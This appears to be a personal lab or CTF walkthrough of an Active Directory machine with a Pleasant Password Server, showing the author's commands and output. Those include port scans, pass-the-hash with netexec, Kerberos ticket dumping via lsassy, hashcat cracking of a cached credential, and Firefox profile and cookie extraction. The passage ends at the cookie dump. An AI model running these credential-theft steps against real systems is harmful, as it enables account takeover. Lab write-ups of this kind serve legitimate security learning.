







As usual I will start by performing a full scan of all the open TCP services on this machine:

```bash
PORT      STATE SERVICE         REASON         VERSION
3389/tcp  open  ms-wbt-server   syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2026-04-01T13:18:25+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=PWM
| Issuer: commonName=PWM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-31T02:45:39
| Not valid after:  2026-09-30T02:45:39
| MD5:     7b54 2691 c2d5 e1f2 e53f 48df 5a84 4c28
| SHA-1:   d388 7fc5 7810 0b7c 8809 2aff f803 7ab1 2fbb a9c3
| SHA-256: 1820 8af0 33cb 4271 d15e a0fe 31b0 d479 8f2d 1133 1cc7 f7b0 2a28 48fb 2816 6e45
| -----BEGIN CERTIFICATE-----
| MIICyjCCAbKgAwIBAgIQTBE5IHj30ZZNk3GaJpPl9DANBgkqhkiG9w0BAQsFADAO
| MQwwCgYDVQQDEwNQV00wHhcNMjYwMzMxMDI0NTM5WhcNMjYwOTMwMDI0NTM5WjAO
| MQwwCgYDVQQDEwNQV00wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDJ
| NQ71PssXciwxBQDTqmQt5UaIcoM+3dFapCc2v6F6mrwea8eMr57h5b+CgUwLeaFX
| t9yu/7Qt66bpmTcSr9pO3du6OulSr9AR8z1KNlKxXrOBPeviAJoC+UcdjyX2K60I
| RK3pKIbpd+vOyW56W3rkUXmeQ0WbOJ4JqWxu34XYUgmkq+mHpd5LVDVN4eHSyvMT
| oCCR5b+FpvrON+qgVqREuoYnueoVEz9Eq68MbT2aEsQFhkshh3mCi2Fk6uIYv7NF
| C0s99o91EI3+/aaAqQP+AE70ljaJIrF2evAz05MDJv4Rp/QlEkPbDYbdXRZAOhW8
| AsAijq9x0bxnl6C8+e+RAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsG
| A1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEACBCyAw+HQdVcWOcRygAKB+Z+
| U3aZXB0D+v2lzjdMgRt9MOHb85Ai+oNuiDKLFmgt7YBSTCU5swVi2m+quXQZwUL3
| ML4NNf28n0q56gSvCIZr3IGFOiVMcr4hF7E0xWFnOYu0agY4ZMOmgaCHIuS3xclE
| aa577TU+niXDZPBAhX5CBAoE51f5LcpN0Aq1Otj+zQTB9WtcsL3wY7s1JvO5zean
| yBPaLG7NZRrI4mWLTYvhU4wMFGGnuYM6RJ8Y9fyZUgajGhTay4WPZHmicYDioCrh
| tyrrDaKuM60fUaB89KpOFl8A0y1ZUJMczPOBaS8Fb5/nad8S2z1LM09p4JqnGA==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: PWM
|   NetBIOS_Domain_Name: PWM
|   NetBIOS_Computer_Name: PWM
|   DNS_Domain_Name: PWM
|   DNS_Computer_Name: PWM
|   Product_Version: 10.0.20348
|_  System_Time: 2026-04-01T13:17:56+00:00
10001/tcp open  ssl/scp-config? syn-ack ttl 64
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=PasswordServer_Temporary_Placeholder_Certificate
| Issuer: commonName=PasswordServer_Temporary_Placeholder_Certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-14T08:38:16
| Not valid after:  2039-12-31T23:59:59
| MD5:     2b3c 5c12 ccbc 1fd0 c85a 8897 bdbe cb87
| SHA-1:   4dd3 f3ac 7034 85a1 334b bc50 7c79 b2da 087d 6cab
| SHA-256: ad6d 02ed bb9e 4ec0 2e02 74d3 9c3f 8d1f c37d 55c3 417c b002 d737 73c5 106b 0e79
| -----BEGIN CERTIFICATE-----
| MIIEBTCCAu2gAwIBAgIQdk7bt+IJsbZFKEzTLpCdETANBgkqhkiG9w0BAQsFADBr
| MWkwZwYDVQQDHmAAUABhAHMAcwB3AG8AcgBkAFMAZQByAHYAZQByAF8AVABlAG0A
| cABvAHIAYQByAHkAXwBQAGwAYQBjAGUAaABvAGwAZABlAHIAXwBDAGUAcgB0AGkA
| ZgBpAGMAYQB0AGUwHhcNMjQwNzE0MDgzODE2WhcNMzkxMjMxMjM1OTU5WjBrMWkw
| ZwYDVQQDHmAAUABhAHMAcwB3AG8AcgBkAFMAZQByAHYAZQByAF8AVABlAG0AcABv
| AHIAYQByAHkAXwBQAGwAYQBjAGUAaABvAGwAZABlAHIAXwBDAGUAcgB0AGkAZgBp
| AGMAYQB0AGUwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDSVH163Nuv
| WwMt6hCYXa+Ax3V+QmnXqVPmY1FzhaRBbVtWSENGTv4nBDKVLVHFn8hsTyE5QTrx
| C8z6P/Pjln5GGaWZRfpyKaxDvVmaIMLwh+vknCvu5uMyA2foB9i3nIAaSnkgMW7H
| CvziATUtSuFNyVQdv+/H799kCzAgi81HBapCboldCbGrxvKIMsIucD9T+EA8b+rp
| LfIbYW/H53OGw1fvTlNFlMev6jCkZNi86PkRv8+bCXkm7J1NuY2eEUQX1jgNmo+c
| q0sDbd+fTjXNAPuvKmnnzV3YjU1Uoho7uwEOBuRfKJ7+hsOOxEmB7nBOBsNALPgX
| Qgru1awba0bdAgMBAAGjgaQwgaEwgZ4GA1UdAQSBljCBk4AQQmVO1YObt3ASoajQ
| ZZufdKFtMGsxaTBnBgNVBAMeYABQAGEAcwBzAHcAbwByAGQAUwBlAHIAdgBlAHIA
| XwBUAGUAbQBwAG8AcgBhAHIAeQBfAFAAbABhAGMAZQBoAG8AbABkAGUAcgBfAEMA
| ZQByAHQAaQBmAGkAYwBhAHQAZYIQdk7bt+IJsbZFKEzTLpCdETANBgkqhkiG9w0B
| AQsFAAOCAQEArAkFwD8eobNgz+P8DHlFfG13NQ1o9HTmE5THcx5CTKcw75K1FKUL
| MTvs9M2FHN+vG/717Z+nJcM/VRCuqoMyzwS50aQ/p85xOhUnpHn2+tYQrNDB2zpI
| fNnCdauojuxAhArV8TPdV7MsasxpdX+IoQ+l7GeH6aFywdgB+VHEOeBBtWTVxgll
| TFYAqrlzY4mjVrjumYeliAQ65hTAUTOHZ4CdfSENCaBlR4ovxgA2kS+QWYbadPRh
| 4QgNyfYCU7PvPieuml6DrwSqzr49gisXbtJXtuiplIjKJxnGblTHwf52V3i8iPd6
| hbJd3i+fwoNANTG3iVzZ+2XhAe0GYxepww==
|_-----END CERTIFICATE-----
| tls-alpn: 
|   h2
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/1%OT=3389%CT=%CU=%PV=Y%G=N%TM=69CD1B21%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=108%GCD=1%ISR=109%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 30.683 days (since Sun Mar  1 21:54:44 2026)
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s

TRACEROUTE
HOP RTT      ADDRESS
1   15.71 ms 172.16.41.215

```

# Password Manger

Now I have no idea what realm does this password manager belong to but seems like the site points to this:

```bash
└─$ curl -k -I https://172.16.41.215:10001/
HTTP/2 302 
cache-control: no-cache, no-store, must-revalidate
pragma: no-cache
content-length: 132
content-type: text/html; charset=utf-8
expires: -1
location: /Account/SignIn
x-content-type-options: nosniff
x-xss-protection: 1
content-security-policy: script-src 'self' 'unsafe-inline' 'unsafe-eval'; frame-ancestors 'none'
x-frame-options: DENY
x-ua-compatible: IE=Edge
strict-transport-security: max-age=31536000; includeSubDomains; preload
date: Sun, 05 Apr 2026 18:57:37 GMT

```

And from here I can see the exact product and version:



# Interesting stuff

Now i remember before seeing on the VDI02 machine that the only user who downloaded this client was a Charlotte and on first sight I thought I had to scout for hidden files within the Appdata folders.



But apparently the client hasn't been installed and a quick search at the Bloodhound data shows that this client is part of the IFRIT realm which means that I might be just able to dump the TGT from memory?



Now appatenly it is possible to dump the kerberos tickets directly from Linux via lsassy:

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Ifrit]
└─$ netexec smb vdi02.eu-ifrit.vl -d it-ifrit.vl -u Sheila.Richards -H 084fa60567c6b124d0a4ca54fac5d3ce -M lsassy
SMB         172.16.41.225   445    VDI02            [*] Windows Server 2022 Build 20348 x64 (name:VDI02) (domain:eu-ifrit.vl) (signing:False) (SMBv1:None)
SMB         172.16.41.225   445    VDI02            [+] it-ifrit.vl\Sheila.Richards:084fa60567c6b124d0a4ca54fac5d3ce (Pwn3d!)
LSASSY      172.16.41.225   445    VDI02            Saved 29 Kerberos ticket(s) to /home/millycash/.nxc/modules/lsassy
LSASSY      172.16.41.225   445    VDI02            EU-IFRIT\Annette.King ed4f286787a56ca7c3201ebec81cd8c1

```

I do not see the credentials for Charlotte?

```bash
└─$ netexec smb vdi02.eu-ifrit.vl -d it-ifrit.vl -u Sheila.Richards -H 084fa60567c6b124d0a4ca54fac5d3ce -M lsassy
SMB         172.16.41.225   445    VDI02            [*] Windows Server 2022 Build 20348 x64 (name:VDI02) (domain:eu-ifrit.vl) (signing:False) (SMBv1:None)
SMB         172.16.41.225   445    VDI02            [+] it-ifrit.vl\Sheila.Richards:084fa60567c6b124d0a4ca54fac5d3ce (Pwn3d!)
LSASSY      172.16.41.225   445    VDI02            Saved 29 Kerberos ticket(s) to /home/millycash/.nxc/modules/lsassy
LSASSY      172.16.41.225   445    VDI02            EU-IFRIT\Annette.King ed4f286787a56ca7c3201ebec81cd8c1
                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Ifrit]
└─$ ll /home/millycash/.nxc/modules/lsassy
total 108
-rw-rw-r-- 1 millycash millycash 1425 apr  6 11:11 'CLIENT_EU-IFRIT.VL_VDI02$_host_VDI02.eu-ifrit.vl_39acff7c_172.16.41.225_20260406120915.ccache'
-rw-rw-r-- 1 millycash millycash 1453 apr  6 11:11 'CLIENT_EU-IFRIT.VL_VDI02$_host_VDI02.eu-ifrit.vl_402fedef_172.16.41.225_20260406120817.ccache'
-rw-rw-r-- 1 millycash millycash 1425 apr  6 11:11 'CLIENT_EU-IFRIT.VL_VDI02$_host_VDI02.eu-ifrit.vl_a67b342e_172.16.41.225_20260406173314.ccache'
-rw-rw-r-- 1 millycash millycash 1605 apr  6 11:11  TGS_EU-IFRIT.VL_Annette.King_cifs_DC03_76c605a8_172.16.41.225_20260406173316.ccache
-rw-rw-r-- 1 millycash millycash 1629 apr  6 11:11  TGS_EU-IFRIT.VL_Annette.King_cifs_DC03.eu-ifrit.vl_dc4f9fd4_172.16.41.225_20260406173316.ccache
-rw-rw-r-- 1 millycash millycash 1657 apr  6 11:11  TGS_EU-IFRIT.VL_Annette.King_cifs_DC03.eu-ifrit.vl_eu-ifrit.vl_93d4cd18_172.16.41.225_20260406173316.ccache
-rw-rw-r-- 1 millycash millycash 1629 apr  6 11:11  TGS_EU-IFRIT.VL_Annette.King_ldap_dc03.eu-ifrit.vl_3cda279d_172.16.41.225_20260406173316.ccache
-rw-rw-r-- 1 millycash millycash 1657 apr  6 11:11  TGS_EU-IFRIT.VL_Annette.King_LDAP_DC03.eu-ifrit.vl_eu-ifrit.vl_af94333f_172.16.41.225_20260406173316.ccache
-rw-rw-r-- 1 millycash millycash 1657 apr  6 11:11  TGS_EU-IFRIT.VL_Annette.King_LDAP_DC03.eu-ifrit.vl_eu-ifrit.vl_b9a1caca_172.16.41.225_20260406173507.ccache
-rw-rw-r-- 1 millycash millycash 1653 apr  6 11:11  TGS_EU-IFRIT.VL_Annette.King_ProtectedStorage_DC03.eu-ifrit.vl_97970d30_172.16.41.225_20260406173316.ccache
-rw-rw-r-- 1 millycash millycash 1451 apr  6 11:11 'TGS_EU-IFRIT.VL_VDI02$_cifs_DC03.eu-ifrit.vl_0990c5c7_172.16.41.225_20260406120817.ccache'
-rw-rw-r-- 1 millycash millycash 1451 apr  6 11:11 'TGS_EU-IFRIT.VL_VDI02$_cifs_DC03.eu-ifrit.vl_560a238d_172.16.41.225_20260406120814.ccache'
-rw-rw-r-- 1 millycash millycash 1479 apr  6 11:11 'TGS_EU-IFRIT.VL_VDI02$_cifs_DC03.eu-ifrit.vl_eu-ifrit.vl_9c43bcf7_172.16.41.225_20260406120814.ccache'
-rw-rw-r-- 1 millycash millycash 1475 apr  6 11:11 'TGS_EU-IFRIT.VL_VDI02$_GC_DC03.eu-ifrit.vl_eu-ifrit.vl_0393da7d_172.16.41.225_20260406120817.ccache'
-rw-rw-r-- 1 millycash millycash 1453 apr  6 11:11 'TGS_EU-IFRIT.VL_VDI02$_host_VDI02.eu-ifrit.vl_402fedef_172.16.41.225_20260406120817.ccache'
-rw-rw-r-- 1 millycash millycash 1451 apr  6 11:11 'TGS_EU-IFRIT.VL_VDI02$_ldap_dc03.eu-ifrit.vl_4a2bfbe5_172.16.41.225_20260406120817.ccache'
-rw-rw-r-- 1 millycash millycash 1479 apr  6 11:11 'TGS_EU-IFRIT.VL_VDI02$_ldap_dc03.eu-ifrit.vl_eu-ifrit.vl_338f7e72_172.16.41.225_20260406120817.ccache'
-rw-rw-r-- 1 millycash millycash 1479 apr  6 11:11 'TGS_EU-IFRIT.VL_VDI02$_ldap_DC03.eu-ifrit.vl_eu-ifrit.vl_6c0004e4_172.16.41.225_20260406120814.ccache'
-rw-rw-r-- 1 millycash millycash 1451 apr  6 11:11 'TGS_EU-IFRIT.VL_VDI02$_LDAP_DC03.eu-ifrit.vl_ff220163_172.16.41.225_20260406120814.ccache'
-rw-rw-r-- 1 millycash millycash 1417 apr  6 11:11 'TGS_EU-IFRIT.VL_VDI02$_VDI02$_e2a87f60_172.16.41.225_20260406120814.ccache'
-rw-rw-r-- 1 millycash millycash 1525 apr  6 11:11  TGT_EU-IFRIT.VL_Annette.King_krbtgt_EU-IFRIT.VL_34e47e81_172.16.41.225_20260406173507.ccache
-rw-rw-r-- 1 millycash millycash 1525 apr  6 11:11  TGT_EU-IFRIT.VL_Annette.King_krbtgt_EU-IFRIT.VL_bbfa894b_172.16.41.225_20260406173316.ccache
-rw-rw-r-- 1 millycash millycash 1525 apr  6 11:11  TGT_EU-IFRIT.VL_Annette.King_krbtgt_EU-IFRIT.VL_fb19811b_172.16.41.225_20260406173316.ccache
-rw-rw-r-- 1 millycash millycash 1347 apr  6 11:11 'TGT_EU-IFRIT.VL_VDI02$_krbtgt_EU-IFRIT.VL_22c25bbc_172.16.41.225_20260406120814.ccache'
-rw-rw-r-- 1 millycash millycash 1347 apr  6 11:11 'TGT_EU-IFRIT.VL_VDI02$_krbtgt_EU-IFRIT.VL_53a962cb_172.16.41.225_20260406120814.ccache'
-rw-rw-r-- 1 millycash millycash 1347 apr  6 11:11 'TGT_EU-IFRIT.VL_VDI02$_krbtgt_EU-IFRIT.VL_7cfac17b_172.16.41.225_20260406120817.ccache'
-rw-rw-r-- 1 millycash millycash 1347 apr  6 11:11 'TGT_EU-IFRIT.VL_VDI02$_krbtgt_EU-IFRIT.VL_820b7701_172.16.41.225_20260406120817.ccache'
                                                                                                                                               
```

Now the issue is that Charlotte is not actually logged in so I cannot get more out of it:

```bash
└─$ nxc smb 172.16.41.225 -u Sheila.Richards -d it-ifrit.vl -H 084fa60567c6b124d0a4ca54fac5d3ce --loggedon-users
SMB         172.16.41.225   445    VDI02            [*] Windows Server 2022 Build 20348 (name:VDI02) (domain:eu-ifrit.vl) (signing:False) (SMBv1:None)
SMB         172.16.41.225   445    VDI02            [+] it-ifrit.vl\Sheila.Richards:084fa60567c6b124d0a4ca54fac5d3ce (Pwn3d!)
SMB         172.16.41.225   445    VDI02            EU-IFRIT\VDI02$                    logon_server: 
SMB         172.16.41.225   445    VDI02            EU-IFRIT\Annette.King              logon_server: DC03

```

Her cached credentials cannot be cracked with common workdlists so far:

```bash
Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 2100 (Domain Cached Credentials 2 (DCC2), MS Cache 2)
Hash.Target......: $DCC2$10240#charlotte.cooper#43d2f2411258a8637a66c6...c78aa9
Time.Started.....: Mon Apr  6 11:18:39 2026 (1 min, 2 secs)
Time.Estimated...: Mon Apr  6 11:19:41 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:   233.3 kH/s (8.10ms) @ Accel:4 Loops:640 Thr:512 Vec:1
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:9600-10239
Candidate.Engine.: Device Generator
Candidates.#01...: #a21mENSPS1* -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#01.: Temp: 69c Util: 49% Core:2595MHz Mem:8000MHz Bus:8

Started: Mon Apr  6 11:18:32 2026
Stopped: Mon Apr  6 11:19:41 2026

```

But since both Edge and Firefox is installed, can I use that to obtain some credentials from there?

```bash
└─$ python3 ../Tools/firefox_decrypt/firefox_decrypt.py Mozilla/Firefox/Profiles/azl31wmz.default 
2026-04-06 11:37:29,797 - WARNING - profile.ini not found in Mozilla/Firefox/Profiles/azl31wmz.default
2026-04-06 11:37:29,797 - WARNING - Continuing and assuming 'Mozilla/Firefox/Profiles/azl31wmz.default' is a profile location
2026-04-06 11:37:29,797 - ERROR - Couldn't initialize NSS, maybe 'Mozilla/Firefox/Profiles/azl31wmz.default' is not a valid profile?
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Ifrit]
└─$ python3 ../Tools/firefox_decrypt/firefox_decrypt.py Mozilla/Firefox/Profiles/9039a8s3.default-release 
2026-04-06 11:37:33,690 - WARNING - profile.ini not found in Mozilla/Firefox/Profiles/9039a8s3.default-release
2026-04-06 11:37:33,690 - WARNING - Continuing and assuming 'Mozilla/Firefox/Profiles/9039a8s3.default-release' is a profile location
2026-04-06 11:37:33,691 - ERROR - Couldn't initialize NSS, maybe 'Mozilla/Firefox/Profiles/9039a8s3.default-release' is not a valid profile?

```

Nah seems like no? But here I noticed i had to get the creds from the Roaming folder instead:

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Ifrit]
└─$ python3 ../Tools/firefox_decrypt/firefox_decrypt.py Mozilla/Firefox                                  
Select the Mozilla profile you wish to decrypt
1 -> Profiles/azl31wmz.default
2 -> Profiles/9039a8s3.default-release
1
2026-04-06 11:40:47,861 - ERROR - Couldn't initialize NSS, maybe 'Mozilla/Firefox/Profiles/azl31wmz.default' is not a valid profile?
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Ifrit]
└─$ python3 ../Tools/firefox_decrypt/firefox_decrypt.py Mozilla/Firefox
Select the Mozilla profile you wish to decrypt
1 -> Profiles/azl31wmz.default
2 -> Profiles/9039a8s3.default-release
2
2026-04-06 11:40:53,789 - WARNING - No passwords found in selected profile

```

No luck so far, but what about the password state files?

```bash
evil-winrm-py PS C:\Users\charlotte.cooper\appdata\local\Pleasant Password Server> ls


    Directory: C:\Users\charlotte.cooper\appdata\local\Pleasant Password Server


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         7/14/2024   3:58 AM            234 SecureStorage.dat                                                     


```

Even more interesting a log database in the Roaming folder? This means she executed the client for real!

```bash
evil-winrm-py PS C:\Users\charlotte.cooper\appdata\Roaming\Pleasant Password Server> ls


    Directory: C:\Users\charlotte.cooper\appdata\Roaming\Pleasant Password Server


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         7/14/2024   3:58 AM          12288 logs.db                                                               


```

But the logs is only telling me it is executed?



But again checking the cookies seems like they are saved?  


The reason I am looking at this is that even if you spawn a client connection via that official password client it will perform a login connection via the default browser.



And now I have some credentials in a form of a cookie:

```bash
└─$ python3 cookieextractor.py -d  /home/millycash/Downloads/Ifrit/Mozilla/Firefox/Profiles/9039a8s3.default-release/cookies.sqlite
(1, '^partitionKey=%28https%2Cifrit.vl%29', 'DomainWideId', '03e83009-428e-4ee5-9b70-9912dd154d43', '.pleasantpasswords.com', '/', 1847185073, 1720954676202000, 1720954676202000, 0, 0, 0, 1, 0, 2, 0)
(2, '^partitionKey=%28https%2Cifrit.vl%29', 'gCo', 'Unk', 'pleasantpasswords.com', '/', 1728730673, 1720954676202000, 1720954676202001, 0, 0, 0, 1, 0, 2, 0)
(4, '^partitionKey=%28https%2Cifrit.vl%29', 'OriginalReferrer', 'https://pwm.ifrit.vl:10001/', '.pleasantpasswords.com', '/', 1847185073, 1720954676202000, 1720954676202005, 0, 0, 0, 1, 0, 2, 0)
(5, '^partitionKey=%28https%2Cifrit.vl%29', 'OriginalUrl', 'https://pleasantpasswords.com/product-news?FeedID=dbd24e14-b93c-4373-bf76-45e176af66f0585&Version=9.0.6.0.Community Edition,5&Hash=5Sl762OQPm2MgcCRYiWLU/mYEUU=&ref=0f08eb9c-7fa4-46cd-8b1d-55d880502d52', '.pleasantpasswords.com', '/', 1847185073, 1720954676202000, 1720954676202006, 0, 0, 0, 1, 0, 2, 0)
(6, '^partitionKey=%28https%2Cifrit.vl%29', 'OriginalTimestamp', '638565514736806270', '.pleasantpasswords.com', '/', 1847185073, 1720954676202000, 1720954676202007, 0, 0, 0, 1, 0, 2, 0)
(7, '^partitionKey=%28https%2Cifrit.vl%29', 'SubdomainSharedSession', 'true', '.pleasantpasswords.com', '/', 1847185073, 1720954676202000, 1720954676202008, 0, 0, 0, 1, 0, 2, 0)
(11, '^partitionKey=%28https%2Cifrit.vl%29', '__utmt', '1', '.pleasantpasswords.com', '/', 1720955276, 1720954676449000, 1720954676449006, 0, 0, 0, 1, 0, 2, 0)
(16, '', 'DomainWideId', '96369c73-9778-4230-b3f7-ad9975695b3e', '.pleasantsolutions.com', '/', 1847185094, 1720954697174000, 1720954697174000, 0, 0, 0, 1, 0, 2, 0)
(17, '^partitionKey=%28https%2Cifrit.vl%29', 'VisitCount', '2', '.pleasantpasswords.com', '/', 1847185112, 1720954714896000, 1720954676202004, 0, 0, 0, 1, 0, 2, 0)
